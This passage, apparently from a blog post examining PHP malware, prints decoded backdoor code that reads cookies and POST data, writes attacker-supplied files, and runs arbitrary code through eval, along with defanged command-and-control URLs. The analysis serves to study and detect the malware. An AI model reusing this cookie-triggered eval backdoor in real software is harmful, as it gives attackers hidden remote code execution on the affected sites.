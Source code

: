 ```php
 	}
	} while ($i < strlen($message));
	return $returnval;
}
```

Since the xor and double xor functions were nested inside a function I decided to call decoder, there was some additional code I had skipped over. When decoded, this was looking at variables:

```php
foreach (array_merge($_COOKIE, $_POST) as $key => $value) {
	$value = @unserialize(doublexor(webhandler::b64decode($value), $key, webhandler::$uid));
	if (isset($value['ak']) && webhandler::$uid == $value['ak']) {
		if ($value['a'] == 'doorway2') {
			if ($value['sa'] == 'check') {
				$data = grabberclass::getdata(explode("/", "hxxp://httpbin.org/"), "");
				if (strlen($data) > 512) {
					echo @serialize(Array("uid" => webhandler::$uid, "v" => webhandler::$version, ));
				}
				exit;
			}
			if ($value['sa'] == 'templates') {
				foreach ($value["templates"] as $template) {
					filereader::filewriter($template);
					echo @serialize(Array("uid" => webhandler::$uid, "v" => webhandler::$version, ));
				}
			}
			if ($value['sa'] == 'keywords') {
				filehandler::filewriter($value["keywords"]);
				webhandler::sitemapgen();
				echo @serialize(Array("uid" => webhandler::$uid, "v" => webhandler::$version, ));
			}
		}
		if ($value['sa'] == 'eval') {
			eval($value["data"]);
			exit;
		}
	}
}
```

This code looks through the cookies and the post variables (both of which don't show up in logs). If the right sequence is sent, the website "httpbin[.]org" is contacted, and the length of data retrieve is examined. This is probably to determine if the malware has access to the internet. While "httpbin[.]org" appears to be not involved, a connection out to this server could indicate the presence of this program.

The header for the class has several variables, which I gave simple names to:

```php
static public $version = "4.1";
static public $uid = "e18bb5c2-b998-9250-fbe6-98f8a3caf821";
private $redirurl = "hxxp://136[.]12[.]78[.]46/module/error/api2?action=redir";
private $pageurl = "hxxp://136[.]12[.]78[.]46/module/error/api2?action=page";
static public $twenty = 20;
static public $onehundred = 100;
```


[c1405681]: /2018/11/07/PHP-Malware-Examination/ "PHP Malware Examination"
